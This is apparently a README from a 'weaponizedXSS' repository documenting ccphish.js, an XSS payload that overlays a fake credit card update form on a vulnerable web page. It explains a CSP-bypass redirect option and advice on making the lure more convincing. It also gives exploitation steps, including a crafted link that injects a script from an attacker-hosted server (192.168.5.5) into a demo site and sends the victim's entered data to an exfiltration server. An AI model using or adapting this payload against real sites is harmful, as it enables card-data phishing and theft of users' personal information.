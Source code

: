 # [unauthn] Credit Card Update Prompt (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays a Credit Card Update popup form. If blended in the application's context sufficiently, once they encounter such a prompt, most users have a (proven) tendency to blindly provide it requested information (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web
  * web shop
  * **NOTE**: if possible, leverage additional available functionality of the target web application to make the popup form appear (even) more convincing (e.g. using JavaScript, open the chat widget and display an appropriate phishing message to the victim user and display the form afterwards)

The payload (`ccphish.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Test Environment

### Web Browsers (20250806)

* [x] Mozilla Firefox 141.0.2 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 138.0.3351.121 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] change payload variable values (`ccphish.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/ccphish.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

4. [social engineering attack] victim user provides requested information

    *(attacker obtains PII data)*

5. [post exploit] attacker leverages obtained PII data

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8d47b495-6fef-4059-b3dc-aaa31655a748
